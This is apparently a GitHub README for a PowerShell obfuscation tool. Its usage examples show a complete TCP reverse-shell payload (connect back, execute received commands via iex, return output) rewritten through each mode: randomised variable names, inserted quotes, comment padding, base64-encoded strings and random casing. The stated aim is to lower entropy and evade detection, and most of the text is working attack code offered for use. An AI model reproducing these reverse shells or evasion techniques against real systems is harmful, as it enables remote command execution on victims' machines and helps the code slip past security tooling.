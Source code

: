 # ObfusceuuuH - Beta

## Description

An automated tool for obfuscation of a powershell script.
This tool is for experimental purposes, I am not responsible for your actions.

## Usage

```
python3 obfuscator.py -f <YOUR_PAYLOAD> -m <MODE>
```

```powershell
PS C:\auto_powershell_obfuscation> python3 .\obfuscator.py -f .\test_payload.txt

New Payload 

$48b23f7aaadc4e96932c24c2fd6c1430 = N""ew-Object Sy''s""tem.Net.Sockets.TCPClient('127.0.0.1',8181);$be30aeef96bc427db72645b20e22b4bc = $48b23f7aaadc4e96932c24c2fd6c1430.GetStream();[byte[]]$0e2e781a1e26488f98d4d5057254669d = 0..65535|%{0};while(($143b0ba8bb9d4270963f5d48892cf60e = $be30aeef96bc427db72645b20e22b4bc.Read($0e2e781a1e26488f98d4d5057254669d, 0, $0e2e781a1e26488f98d4d5057254669d.Length)) -ne 0){;$b98b18b0b96a4336ab5c1b5f53172f6e = (New-Object -TypeName Syst""em.Text.ASCIIEncoding).GetString($0e2e781a1e26488f98d4d5057254669d,0, $143b0ba8bb9d4270963f5d48892cf60e);$82f0188570bb4842ae4d302dec137166 = (i""ex $b98b18b0b96a4336ab5c1b5f53172f6e 2>&1 | Out-String );$8a7ef545026b4a2e807bc6a667c70cbe = $82f0188570bb4842ae4d302dec137166 + 'PS ' + (pwd).Path + '> ';$2e6d40d1196a40569af7fac1184d3696 = ([text.encoding]::ASCII).GetBytes($8a7ef545026b4a2e807bc6a667c70cbe);$be30aeef96bc427db72645b20e22b4bc.Write($2e6d40d1196a40569af7fac1184d3696,0,$2e6d40d1196a40569af7fac1184d3696.Length);$be30aeef96bc427db72645b20e22b4bc.Flush()};$48b23f7aaadc4e96932c24c2fd6c1430.Close()

New payload entropy: 5.138376499232824
```

## Mode

### Var

**var** mode only changes the names of your variables according to the entropy rules.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -m var -f .\payload.txt 

$4fe310251c7d4c8f937142076d281ce6 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181);$45cbaabdf14f45a191c972b6307a6abb = $4fe310251c7d4c8f937142076d281ce6.GetStream();[byte[]]$95c66e4518fc49bdbe1a369ca1fa4588 = 0..65535|%{0};while(($b9285b898cbe4628aa860f2608aa2195 = $45cbaabdf14f45a191c972b6307a6abb.Read($95c66e4518fc49bdbe1a369ca1fa4588, 0, $95c66e4518fc49bdbe1a369ca1fa4588.Length)) -ne 0){;$f26c594770184cb9ad926878184d061d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($95c66e4518fc49bdbe1a369ca1fa4588,0, $b9285b898cbe4628aa860f2608aa2195);$2031bb366ddb4bd0a88e411227464baa = (iex $f26c594770184cb9ad926878184d061d 2>&1 | Out-String );$5dc4676c22014043b312ff6e180ba5ff = $2031bb366ddb4bd0a88e411227464baa + 'PS ' + (pwd).Path + '> ';$5d584a8b541a4220b78f14b13a6c9ee9 = ([text.encoding]::ASCII).GetBytes($5dc4676c22014043b312ff6e180ba5ff);$45cbaabdf14f45a191c972b6307a6abb.Write($5d584a8b541a4220b78f14b13a6c9ee9,0,$5d584a8b541a4220b78f14b13a6c9ee9.Length);$45cbaabdf14f45a191c972b6307a6abb.Flush()};$4fe310251c7d4c8f937142076d281ce6.Close()
```

### Boolean

**boolean** mode replaces simple $True or $False with equivalent boolean expressions.

`$True` => `[bool]1254`

### Quote - Beta

**quote** mode will sprinkle your code with quotation marks where they don't disturb the flow (/!\ beware /!\ this mode is not completely finished, check that it works properly before using it)

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m quote -f .\payload.txt

$client = New-Object Sys""t''em.Net.Sockets.TCPClient('127.0.0.1',8181);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''ew-Object -TypeName Sy''st''em.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (p""wd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Gcm

**gcm** mode uses a trick that replaces cmdlets with a gcm call. This method reduces the entropy of our payload but also makes it slightly less efficient.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -m gcm -f .\payload.txt

```

### Commentropy

**commentropy** mode creates long comments in your payload and reduces the entropy of your payload.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -f .\payload.txt -m commentropy
$client <#*********************************#>=<#*******************************#> New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181);$stream <#*********************************#>=<#*******************************#> $client.GetStream();[byte[]]$bytes <#*********************************#>=<#*******************************#> 0..65535|%{0};while(($i <#*********************************#>=<#*******************************#> $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data <#*********************************#>=<#*******************************#> (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback <#*********************************#>=<#*******************************#> (iex $data 2>&1 | Out-String );$sendback2 <#*********************************#>=<#*******************************#> $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte <#*********************************#>=<#*******************************#> ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### str64

**str64** mode will base64 encode your strings, then decode them in your payload

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -f .\payload.txt -m str64   
$client = New-Object System.Net.Sockets.TCPClient([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('MTI3LjAuMC4x')),8181);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('UFMg')) + (pwd).Path + [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('PiA='));$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Rcase

**rcase** mode will change the case of your payload at random.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -f .\payload.txt -m rcase
$client = neW-ObJect sYSTem.nET.sockets.tcPclienT('127.0.0.1',8181);$stream = $client.GetStream();[Byte[]]$bytes = 0..65535|%{0};WhIlE(($i = $stream.Read($bytes, 0, $bytes.Length)) -NE 0){;$data = (NEW-obJect -tYpEnAmE sYsTeM.tExt.ASCiiencODiNG).GETsTRINg($bytes,0, $i);$sendback = (IEX $data 2>&1 | ouT-sTRIng );$sendback2 = $sendback + 'PS ' + (PwD).path + '> ';$sendbyte = ([teXt.ENCODING]::aSCII).getByTes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


### Entropy

**entropy** mode allows you to calculate the entropy of your payload.

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m entropy -f .\payload.txt

5.265027259625534
```

